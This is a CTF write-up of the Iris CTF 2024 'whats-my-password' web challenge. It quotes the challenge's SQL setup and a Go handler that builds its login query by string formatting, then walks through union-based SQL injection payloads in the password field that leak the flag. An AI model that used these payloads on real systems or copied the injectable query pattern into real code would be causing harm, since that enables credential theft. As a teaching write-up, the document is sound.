 ```yaml
---
layout: writeup
category: Iris-CTF-2024
chall_description:
points: 50
solves: 422
tags: web web/sqli web/union
date: 2024-1-7
comments: false
---
```


[baby] Oh no! Skat forgot their password (again)!  

Can you help them find it?  

[https://whats-my-password-web.chal.irisc.tf/](https://whats-my-password-web.chal.irisc.tf/)  
[whats-my-password.tar.gz](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Iris-CTF-2024/whats-my-password.tar.gz)  

---

We're given a source folder for the site, `whats-my-password.tar.gz`. The only relevant part is `setup.sql` and `src/main.go`

Here's `setup.sql`:  

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

With a bit of research on that last part of SQL, I realized that what it was doing was likely just granting the capability of using `SELECT` to the user. So maybe we can do an SQL Union attack?  

Additionaly, it seems like the user `skat` has the flag as his password. Seems like that's our target!  

Now here's the relevant parts of `main.go`:  

```go
matched, err := regexp.MatchString(UsernameRegex, input.Username)
if err != nil {
    w.WriteHeader(http.StatusInternalServerError)
    return
}

if matched {
    w.WriteHeader(http.StatusBadRequest)
    w.Write([]byte("Username can only contain lowercase letters and numbers."))
    return
}

qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```

Firstly, notice how we can only do SQL injection in the password input. This is because the username can only contain lowercase letters and numbers, making single/double quotes' usage impossible. However, there is no such check on the password. Additionally, take a look at the SQL statement. It is a very standard SQL select statement for login, and now we know we should use double quotes.  

Hence, let's try to construct our query. With Burp Suite's Repeater, we can repeatedly send the JSON POST data. I first sent this:  

```json
{"username":"a","password":"\"union select * from uwu.users-- "}
```

The `--` at the end denotes a comment so the SQL statement will execute properly and essentially ignore everything after our payload. The username is irrelevant, and `a` is merely a placeholder so it doesn't throw an exception for a missing username.  

Unfortunately, this query does not return the output we want!  

```json
{"username":"root","password":"IamAvEryC0olRootUsr"}
```

Hm. Maybe we can try selecting specifically for the `skat` user?  

```json
{"username":"a","password":"\"union select * from uwu.users where username='skat'-- "}
```

And now we get the output we want!  

```json
{"username":"skat","password":"irisctf{my_p422W0RD_1S_SQl1}"}
```

Therefore, the flag is:  

    irisctf{my_p422W0RD_1S_SQl1}
